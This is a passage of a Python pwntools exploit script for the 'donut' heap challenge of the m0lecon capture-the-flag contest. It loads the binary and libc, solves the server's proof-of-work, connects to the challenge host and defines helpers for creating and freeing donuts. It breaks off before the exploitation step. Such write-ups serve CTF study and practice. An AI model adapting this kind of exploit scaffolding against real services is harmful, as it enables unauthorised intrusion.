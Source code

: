 ```python
#!/usr/bin/env python3

from pwn import *
import hashlib
from itertools import product

exe = ELF("./donut")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

def solve_pow(start_string, hash_end):
    for chars in product(string.ascii_letters, repeat=4):
        candidate = start_string + bytes(map(ord, chars))
        m = hashlib.sha256()
        m.update(candidate)
        if m.hexdigest().endswith(hash_end):
            print(f'POW solved: {candidate}')
            return candidate

    return None

def conn():
    if args.LOCAL:
        return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
    else:
        p = remote("challs.m0lecon.it", 1743)
        p.recvuntil("Give me a string starting with ")
        start_string = p.recvuntil(" ")[:-1]
        p.recvuntil('such that its sha256sum ends in ')
        hash_end = p.recvuntil('.')[:-1].decode()
        p.sendline(solve_pow(start_string, hash_end))
        return p


def main():
    r = conn()

    def create_custom_donut(roundness, name = None, name_len = None):
        r.sendlineafter('[l]eave the factory\n', 'c')
        r.sendlineafter('The only donut customization currently allowed is the roundness. Please give me a number between 0 and 255!\n', str(roundness))
        r.recvuntil('Hold on, I\'m making it....\n')
        donut = r.recvuntil('Do you like it? (y/n)\n')[:-len('Do you like it? (y/n)\n')]
        if name is None:
            r.sendline('n')
            p = None
        else:
            r.sendline('y')
            if name_len is None:
                name_len = len(name)+1

            r.sendlineafter('First how long is it?\n', str(name_len))
            r.sendlineafter('What\'s your name?\n', name)
            r.recvuntil('Please give this code to the cashier to retrieve your donut! ')
            p = int(r.recvline().rstrip(), 0x10)

        return (donut, p)

    def destroy_donut(address):
        r.sendlineafter('[l]eave the factory\n', 't')
        r.sendlineafter("Please give me your donut code to destroy it!\n", hex(address))
```